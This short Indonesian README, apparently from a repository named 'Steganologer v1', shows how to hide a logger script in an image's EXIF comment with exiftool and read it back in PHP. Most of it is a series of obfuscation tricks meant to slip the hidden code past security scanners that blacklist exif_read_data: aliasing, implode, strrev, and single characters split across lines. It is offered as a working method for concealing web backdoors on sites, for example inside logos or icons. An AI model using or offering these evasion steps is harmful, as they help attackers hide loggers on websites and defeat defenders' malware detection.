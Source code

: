 # Steganologer v1

Pada Steganologer versi 1 memanfaatkan exif metadata untuk menyisipkan script loger.
untuk membaca metadata suatu gambar anda bisa memakai function [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) dan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) pada php.

Untuk memanipulasi exif metadata anda bisa menggunakan pothoshop,exifpilot dll pada sistem operasi windows, sedangkan pada linux anda bisa menggunakan exiftool.
Anda bisa menyisipkannya di logo atau icon pada website.

```
exiftool -Comment="scriptloger" filegambar.jpg
```

### Reader


```php
$steganologer = exif_read_data("bunglon.jpg");
echo $steganologer['COMMENT'][0];
```

### Bypass

bila scanner memblacklist kata [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) .
anda bisa mengakalinya dengan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php).

bila [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) juga di blasklist.
anda masih bisa membypassnya dengan array lalu di implode.
```php
implode("_",["exif","read","data"])("bunglon.jpg")
```

bila kata "exif" di blacklist juga maka bisa di bypass dengan membalikkan katanya menjadi "fixe" lalu manfaatkan function [strrev()](http://php.net/manual/en/function.strrev.php) di php.

dan bila kata fixe juga di blacklist maka bisa di bypass dengan manjadikan tiap hurufnya menjadi array
```php
implode("",["e","x","i","f","_","r","e","a","d","_","d","a","t","a"])("bunglon.jpg")
```
dan bila array berikut '"e","x","i","f","_","r","e","a","d","_","d","a","t","a"' di blacklist maka pecah saja menjadi
```php
$kata[] = "e";
$kata[] = "x";
$kata[] = "i";
$kata[] = "f";
$kata[] = "_";
$kata[] = "r";
$kata[] = "e";
$kata[] = "a";
$kata[] = "d";
$kata[] = "_";
$kata[] = "d";
$kata[] = "a";
$kata[] = "t";
$kata[] = "a";
```
lalu sebarkan :v di beda line script asal urutannya benar pasti functionnya kembali seperti semula

```php
implode("",$kata)("bunglon.jpg")
```

bila scanner memblacklist ")(" maka bypass dengan  memisahkan function implode

```php
$implode = implode("",$kata);

echo $implode("bunglon.jpg")
```

masih banyak function php yang bisa di manfaatkan untuk bermain loger explore dan manfaatkan.